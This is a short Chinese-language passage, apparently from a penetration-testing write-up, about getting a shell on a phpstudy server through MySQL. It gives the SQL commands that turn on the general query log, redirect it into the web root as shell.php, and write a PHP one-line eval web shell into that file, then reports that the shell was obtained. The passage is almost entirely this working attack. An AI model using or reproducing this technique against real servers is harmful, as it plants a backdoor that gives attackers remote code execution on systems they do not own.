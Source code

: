 在log变量中看到了phpstudy的位置，可以直接得到www目录的位置

```
#开启日志
set global general_log='on';
#设置日志位置为网站目录
set global general_log_file='C:\\phpstudy_pro\\WWW\\shell.php';
#传个一句话
select '<?php @eval($_POST["apple"]); ?>';
```

![image-20231122163115205](images/36.png)

成功拿到shell
